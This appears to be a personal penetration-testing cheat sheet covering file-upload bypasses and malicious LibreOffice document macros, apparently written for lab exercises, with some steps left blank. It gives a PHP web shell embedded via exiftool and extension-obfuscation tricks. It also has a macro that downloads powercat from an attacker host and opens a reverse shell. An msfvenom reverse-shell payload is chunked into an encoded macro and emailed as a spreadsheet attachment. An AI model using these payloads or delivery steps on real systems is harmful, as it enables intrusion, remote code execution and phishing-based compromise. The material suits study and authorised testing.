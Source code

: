 #### Overriding the Server Confiugration

```
#Apache
1. Create a custom .htaccess file. (https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)
2. Upload it.
3. Upload your new shell.

#IIS
1. Create a custom web.config file.
2.
3.

```

#### Flawed File Type Validation
```
#Is it validating by the content-type header?
1. Create your malicious file.
2. Upload and intercept the request.
3. Change the content-type header to match what the application is expecting.
4. Browse to your file, is it executed?

#Is it validating by extension?
1.
2.
3.
4.

#Is it scanning the content?
exiftool -Comment="<?php system($_GET['cmd']); ?>" <YOUR-INPUT-IMAGE>.jpg -o shell.php
```

#### Insufficient Blacklisting of Dangerous File Types 

```
#Modify the original extension
PHP: phps, pHp, php7, phtml.

#Obfuscate the extension
1. shell.asp;.jpg
2. shell.asp%00.jpg
3. 
```


### Over Writing
![[Pasted image 20231205204847.png]]

The response shows the ../../ indicating we may be able to overwrite files.

Create a SSH key and authroized_keys file.

![[Pasted image 20231205205001.png]]

Select your file and edit the path to overwrite a folder.

![[Pasted image 20231205205011.png]]


## LibreOffice

### Method 1
#### ODT / ODS
```
Reference: https://al1z4deh.medium.com/proving-grounds-craft-c92de878e004 OR https://dominicbreuker.com/post/htb_re/

#Steps In LibreOffice (ODT) or LibreCalc (ODS)
1. Create new document.
2. Add macro: Tools -> Macros -> Organise Macros -> Basic
3. Assign Macro Open Document Event.
4. Edit new Macro.

REM  ***** BASIC *****

Sub Main
	Shell("cmd /c powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/powercat.ps1'); powercat -c <ip> -p <port> -e powershell"")
End Sub

4. Might pay to just do a curl first to test the code execution is working.

```

### Method 2 

```
#Generates ODF file which can be used to leak NTLM credentials.
https://www.exploit-db.com/exploits/44564
```


### Method 3
#### ODT / ODS

```
1. #Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f hta-psh -o evil.hta

2. Split payload. Using this python3 script.
s = "<payload here>"

n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')

3. Create new macro in Libre (Refer to method 1 steps.)
4. Drop payload in it should look like something below:

Sub Exploit

   Dim Str As String

   Str = Str + "cmd.exe /C powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
   Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
   Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
   Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
   Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
   ...
   Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
   Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
   Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
   Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
   Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
   Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
   Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
   Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
   Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
   Str = Str + "AdABhAHIAdAAoACQAcwApADsA"

   Shell(Str)

End Sub

5. Send payload

sendemail -f 'jonas@localhost' \
                       -t 'mailadmin@localhost' \
                       -s 192.168.120.132:25 \
                       -u 'Your spreadsheet' \
                       -m 'Here is your requested spreadsheet' \
                       -a bomb.ods

```